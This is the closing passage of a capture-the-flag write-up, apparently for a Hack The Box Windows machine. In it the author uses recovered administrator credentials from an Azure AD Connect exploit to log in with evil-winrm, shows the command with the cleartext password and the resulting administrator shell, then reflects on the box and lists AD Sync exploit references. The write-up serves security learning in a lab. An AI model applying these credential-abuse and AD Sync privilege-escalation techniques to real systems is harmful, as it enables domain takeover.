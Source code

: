 Typically, we expect to get the credentials of the service account and will need to proceed to dump hashes.

But in this case, we find the administrator account credentials. So that's the end for this box.

```
$ evil-winrm -i 10.10.10.172 -u administrator -p d0m@in4dminyeah!
<SNIP>
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```

## Thoughts

The privilege escalation process was not technically difficult, but my unfamiliarity with the environment meant that understanding the vulnerability and exploit was a challenge.

Also, my first time encoutering Azure in a box.

**AD Sync Exploits**

* https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/
* https://blog.xpnsec.com/azuread-connect-for-redteam/
* https://github.com/fox-it/adconnectdump

**Azure AD**

* https://docs.microsoft.com/en-us/azure/active-directory/fundamentals/active-directory-whatis
* https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-hybrid-identity
* https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-password-hash-synchronization
* https://docs.microsoft.com/en-us/azure/active-directory/hybrid/reference-connect-accounts-permissions